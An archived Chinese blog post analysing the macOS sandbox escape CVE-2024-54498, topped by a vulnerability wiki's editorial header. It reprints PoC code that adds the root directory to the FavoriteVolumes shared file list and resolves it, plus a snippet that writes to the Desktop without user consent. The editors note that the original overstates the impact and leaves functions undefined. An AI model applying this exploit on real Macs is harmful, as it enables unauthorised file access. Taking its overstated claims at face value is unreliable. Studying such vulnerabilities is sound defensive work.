

# macos高危漏洞CVE-2024-54498 解析+复现

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：macOS sharedfilelistd与LSSharedFileList
- 文献类型：沙箱逃逸本地实验
- 版本、权限及部署边界：本地沙箱应用调用FavoriteVolumes接口并解析条目；文中15.2修复，实际测试系统/签名entitlements未列
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 并非每个macOS应用默认沙箱；App Sandbox、TCC用户授权与POSIX/SIP文件权限被混为一谈
2. 取得沙箱扩展不等于全盘读写、root或绕过TCC所有数据限制，Desktop写入不能证明任意文件
3. SharedFileList是系统共享列表/收藏卷机制，不是开启网络共享文件
4. 复现视频位置空，writeFileAtPath/userDir未定义，仅节选函数需标明；缺实验entitlements与原始成功日志
5. GitHubPoC保留，CVSS8.8与所有<15.2范围需官方来源，清理广告

### 操作风险

取得沙箱扩展不等于全盘读写、root或绕过TCC所有数据限制，Desktop写入不能证明任意文件

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/wh1te4ever/CVE-2024-54498-PoC>
- 原文参考链接（未重新核验）：<https://mp.weixin.qq.com/s?__biz=MzkyOTQzNjIwNw==&mid=2247491206&idx=1&sn=b7eaef72230be9c92c0e5a1dde5d0f66&scene=21#wechat_redirect>
- 原文参考链接（未重新核验）：<https://mp.weixin.qq.com/s?__biz=MzkyOTQzNjIwNw==&mid=2247491222&idx=1&sn=e39e5a74e9431480b1582b2b79c317f7&scene=21#wechat_redirect>
- 原文参考链接（未重新核验）：<https://mp.weixin.qq.com/s?__biz=MzkyOTQzNjIwNw==&mid=2247491224&idx=1&sn=47968ba82b9e6bea17b2511da4faf5a7&scene=21#wechat_redirect>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 棉花糖糖糖  棉花糖fans   2025-01-13 19:23  
  
  
  
## 前言:  
  
前两天看到github有公开一个mac的cve，影响了15.2以下的版本，刚好我也用的mac，看看会不会影响到我，特抽时间看了一下，有搞错的地方麻烦大佬补充修改。  
## 原理：  
  
先说下前情提要，苹果的macos有个沙箱机制，每个应用都只能访问自己独立的沙箱数据，如果需要访问其他数据，比如桌面文件夹，则需要用户手动授权，即唤起一个文件夹选择栏，让用户授权。  
  
而CVE-2024-54498绕过了这个限制，在无需用户授权的情况下也可写入/读取任意文件。  
  
简单研究了下poc，原理很简单，mac系统还有个机制/特性，就是共享文件，进程是sharedfilelistd。  
  
  
  
这个进程允许将全盘直接列入共享文件中，从而导致原本应该没有权限的目录被直接取得权限。  
## 复现：  
  
代码很简单，原poc中的关键函数是这样的：  
```
int add_root_dir_to_favorites(void) {
    CFStringRef listType = kLSSharedFileListFavoriteVolumes;
    LSSharedFileListRef favoriteVolumesList = LSSharedFileListCreate(NULL, listType, NULL);
    
    if (favoriteVolumesList) {
        NSString *path = @"/";
        CFURLRef tmpDirURL = (__bridge CFURLRef)[NSURL fileURLWithPath:path];
        
        LSSharedFileListItemRef newItem = LSSharedFileListInsertItemURL(
            favoriteVolumesList,
            kLSSharedFileListItemLast,
            NULL,
            NULL,
            tmpDirURL,
            NULL,
            NULL
        );
        
        if (newItem) {
            NSLog(@"[+] Successfully added %@ to Favorite Volumes.", path);
            CFRelease(newItem);
        } else {
            NSLog(@"[-] Failed to add %@ to Favorite Volumes.", path);
        }
        
        CFRelease(favoriteVolumesList);
    } else {
        NSLog(@"[-] Failed to access LSSharedFileList for Favorite Volumes.");
    }
    
    return 0;
}

int trigger_exploit(void) {
    LSSharedFileListRef recentItems = LSSharedFileListCreate(NULL, kLSSharedFileListFavoriteVolumes, NULL);
    if (recentItems) {
        NSArray *items = (__bridge NSArray *)LSSharedFileListCopySnapshot(recentItems, NULL);
        
        NSLog(@"items array: %@\n", items);
        for (id item in items) {
            LSSharedFileListItemRef itemRef = (__bridge LSSharedFileListItemRef)item;
            CFErrorRef errorRef;
            CFURLRef itemURL = LSSharedFileListItemCopyResolvedURL(itemRef, 0, &errorRef);
            NSString *itemPath = [(__bridge NSURL *)itemURL path];
            NSLog(@"itemPath: %@", itemPath);
        }
        CFRelease(recentItems);
    } else {
        NSLog(@"Failed to retrieve recent items.");
    }
    
    return 0;
}

```  
  
就像原理中说的，它调用了苹果的api让sharedfilelistd进程将根目录直接加入了共享列表中，验证它也很简单，直接尝试写入一个新文件到destop中即可。  
```
NSString *escaped_dir = [NSString stringWithFormat:@"%@/Desktop/exp", userDir];
    const char* escaped_contents = "无需申请授权即可访问destop文件夹";
    writeFileAtPath(escaped_dir.UTF8String, escaped_contents);

```  
  
写成几个函数直观一点。  
  
  
  
复现视频：  
  
## 总结：  
  
这个漏洞利用正常功能点导致了另一个意料之外的后果，简单但有效，危害在于用户无感知地被取得了全盘权限，CVSS评分也来到了8.8，苹果在15.2版本中已修复此漏洞。  
```
https://github.com/wh1te4ever/CVE-2024-54498-PoC
```  
  
**广告：年末最后一次打广告了，会员站年终抽奖，奖总计5000元,此时就是最好的购买时机！**  
  
****  
  
  
☟上下滑动查看更多  
  
## 往期文章  
  
  
[自定义kali：增加60+常用渗透工具，哥斯拉特战版，cs魔改应有尽有，菜单栏启动2024-12-27 ](https://mp.weixin.qq.com/s?__biz=MzkyOTQzNjIwNw==&mid=2247491206&idx=1&sn=b7eaef72230be9c92c0e5a1dde5d0f66&scene=21#wechat_redirect)  
  
  
[交流群新增github poc监控机器人2024-12-29 ](https://mp.weixin.qq.com/s?__biz=MzkyOTQzNjIwNw==&mid=2247491222&idx=1&sn=e39e5a74e9431480b1582b2b79c317f7&scene=21#wechat_redirect)  
  
  
[年末最后一次打广告了，会员站年终抽奖，奖品总计5000元,此时就是最好的购买时机！2024-12-30 ](https://mp.weixin.qq.com/s?__biz=MzkyOTQzNjIwNw==&mid=2247491224&idx=1&sn=47968ba82b9e6bea17b2511da4faf5a7&scene=21#wechat_redirect)  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
